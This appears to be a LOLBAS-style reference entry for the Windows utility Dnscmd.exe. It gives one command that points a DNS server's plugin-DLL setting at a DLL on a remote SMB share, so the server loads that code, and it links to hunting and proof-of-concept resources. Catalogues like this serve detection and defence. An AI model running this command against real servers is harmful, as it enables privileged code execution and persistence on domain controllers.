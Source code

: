 ## Dnscmd.exe

* Functions: Execute

```
dnscmd.exe dc1.lab.int /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
```

Acknowledgements:
* Dimitrios Slamaris - @dim0x69

Code sample:
* 

Resources:
* https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html
* https://github.com/dim0x69/dns-exe-persistance/tree/master/dns-plugindll-vcpp
* https://twitter.com/Hexacorn/status/994000792628719618

Full path:
```
c:\windows\system32\Dnscmd.exe
c:\windows\sysWOW64\Dnscmd.exe
```

Notes:
Used on Windows servers for DNS management


Detection:


 
